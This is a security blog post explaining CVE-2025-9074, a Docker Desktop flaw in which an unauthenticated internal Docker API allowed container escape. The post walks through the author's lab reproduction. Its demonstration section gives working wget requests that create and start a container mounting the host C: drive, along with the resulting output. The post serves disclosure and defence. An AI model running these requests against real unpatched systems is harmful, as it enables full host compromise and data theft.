 ```yaml
---
title: "Breaking Out: Understanding CVE-2025-9074 in Docker Desktop"
description: "A deep dive into CVE-2025-9074, a critical vulnerability in Docker Desktop that allowed complete host compromise from any container with just two HTTP requests."
date: "2025-09-04"
author: "Samson Otori"
category: "Insights"
tags: ["CVE", "Docker", "Container Security", "Vulnerability Analysis", "Exploit", "Zero Trust", "Security Research"]
image: "/images/blog/docker security BReach NEW.png"
---
```


# Breaking Out: Understanding CVE-2025-9074 in Docker Desktop

Containers have revolutionized how we build, ship, and deploy applications. Unlike virtual machines, which package an entire operating system alongside the application, containers provide only the code and its dependencies, running on the host kernel. This makes them lightweight, portable, and fast to deploy.

In my home lab, I rely heavily on Docker for running security tools, test environments, and quick experiments. Containers allow me to isolate different services, but this isolation comes with a caveat: it is only as strong as the implementation behind it. A recently disclosed flaw, CVE-2025-9074, demonstrates that container isolation can be far weaker than we think. This vulnerability revealed a simple oversight in Docker Desktop that allowed full host compromise from any container with just two HTTP requests.

## The Vulnerability

CVE-2025-9074 affected Docker Desktop on Windows and macOS prior to version 4.44.3. The issue was that the Docker API, which should have been restricted, was accessible from any container without authentication. From there, an attacker could create a privileged container, mount the host's C: drive, and interact directly with the filesystem.

The result was a complete breakdown of container boundaries. An attacker did not need complex exploitation chains or advanced privilege escalation tricks. With only two requests to the Docker API, isolation was shattered. This vulnerability carried a severity score of 9.3 out of 10, which reflects its potential impact.

## Discovery Story

The researcher, Felix Boulet, uncovered this flaw almost by accident. While scanning the internal environment of a container with Nmap, he noticed the exposed Docker API on the network. Out of curiosity, he probed it further and quickly realized that it accepted unauthenticated requests. This allowed him to interact directly with the Docker daemon, the central service responsible for creating and managing containers.

Collaborating with Philippe Dugre, another container expert, Felix confirmed that the same oversight affected macOS as well. The discovery was a reminder that sometimes the most dangerous bugs come from the simplest assumptions: "internal" services are not always safe by default.

## Technical Walkthrough

In theory, Docker containers should remain jailed. They operate in separate namespaces, cannot touch the host filesystem unless explicitly configured, and are prevented from interfering with one another. In this case, however, the Docker API (192.168.65.7:2375) was wide open.

The exploit worked in two steps. First, the attacker would send a POST request to create a new container that bound the host's C: drive into the container at a directory called /host_root. A simple command could then be specified to write or read files from that mount point. Second, another POST request would start the container, executing the command against the host filesystem.

This was enough to create arbitrary files on the host, steal sensitive data, or prepare persistence mechanisms such as startup tasks or scheduled jobs. It did not require direct code execution on the container, an SSRF vulnerability in a containerized web application could have been enough to trigger it.

## Demonstration: From Container to Host

To verify the Docker Desktop escape vulnerability, I reproduced the proof of concept on my own test system running Docker Desktop 4.44.1 (vulnerable). Below is a walk-through of the key steps.

### Step 1: Launch a Container

I started with a lightweight Alpine container and opened an interactive shell:

**Terminal →**

`docker run -it alpine /bin/sh`

This dropped me into a root shell inside the container, ready to issue commands.

### Step 2: Confirm API Exposure

Inside the container, I confirmed that the internal Docker API was reachable at http://192.168.65.7:2375.

**Terminal →**

`wget --timeout=3 --tries=1 -qO- http://192.168.65.7:2375/_ping`

The expected response is simply:

**Terminal →**

`OK`

This confirmed that the container could talk directly to the Docker service API on the host.

### Step 3: Create a Privileged Container with Host Mount

Next, I issued a POST request to create a new container with the host C: drive mounted. The JSON payload instructed Docker to bind the Windows host C:\ drive into the container at /host_root and to write a test file:

**Terminal →**

`wget --header='Content-Type: application/json' \ --post-data='{"Image":"alpine","Cmd":["sh","-c","echo pwned > /host_root/pwn.txt"],"HostConfig":{"Binds":["/mnt/host/c:/host_root"]}}' \ -O - http://192.168.65.7:2375/containers/create > create.json`

The output returned a container ID:

**Terminal →**

`{"Id":"8cd5867ade9a5b73409763d03907d2ef321b90064fac16b63eddfb0e488e9571","Warnings":[]}`

This meant the container had been created with access to the host file system.

### Step 4: Start the Container

With the container created, I started it using another simple POST:

**Terminal →**

`cid=$(cut -d'"' -f4 create.json) wget --post-data='' -O - http://192.168.65.7:2375/containers/$cid/start`

The expected response was an empty body with a 204 status code, meaning the container successfully started.

### Step 5: Verify Host Compromise

Finally, I checked the Windows C:\ drive for the file written by the container:

**Terminal →**

`C:\docker_cve_test\pwn.txt`

The file contained the word:

**Terminal →**

`pwned`

This confirmed that the container had broken isolation and was able to write directly to the host file system, proving the vulnerability in action.

<InlineGallery images={docker-cve-demonstration} title="Docker CVE-2025-9074 Proof of Concept Demonstration" />

**⚠️ Safety Note**

This demonstration was carried out in a controlled lab environment using an intentionally vulnerable version of Docker Desktop. Do not attempt this on production systems, work laptops, or any environment that contains sensitive data. Always use isolated test machines when experimenting with security vulnerabilities.

## Why It Matters

This vulnerability illustrates how dangerous it is to assume internal APIs or control planes are inherently safe. In a production environment, it could have meant a malicious container escaping its sandbox entirely, with access to host data and applications. Even in my home lab, where Docker is often used for security testing, this flaw was a reminder that one container could have compromised the entire environment.

The real danger lies in how easy it was. Just two HTTP requests were enough to undo Docker's core promise of isolation.

## Lessons Learned

The patch in version 4.44.3 closed the hole, but the lessons extend far beyond Docker itself. Every internal service should require authentication, no matter how "hidden" it seems. Network segmentation between containers and the host must be enforced, and zero-trust principles should apply within containerized environments just as much as they do at the perimeter.

Regular scanning of container networks is equally important. Felix discovered this flaw simply by running Nmap on the documented private Docker network. Had organizations been running similar checks, they might have caught the issue themselves.

## Conclusion

CVE-2025-9074 serves as a critical reminder: container isolation is not infallible. For anyone running Docker Desktop on Windows or macOS, updating to version 4.44.3 or later is essential. For security professionals, the vulnerability reinforces the need to test assumptions, audit internal interfaces, and apply zero-trust principles throughout the environment.

In my own lab, Docker remains a powerful and flexible tool, but this experience has reinforced the need for vigilance. Even mature platforms can harbor oversights, and sometimes, breaking out of a container is as easy as running two lines of code.

## Further Reading

For further details, you can explore:

- [CVE-2025-9074 Record](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-9074)
- [Docker Desktop 4.44.3 Release Notes](https://docs.docker.com/desktop/release-notes/)
- [Felix Boulet's Original Write-up](https://blog.qwertysecurity.com/Articles/blog3.html)
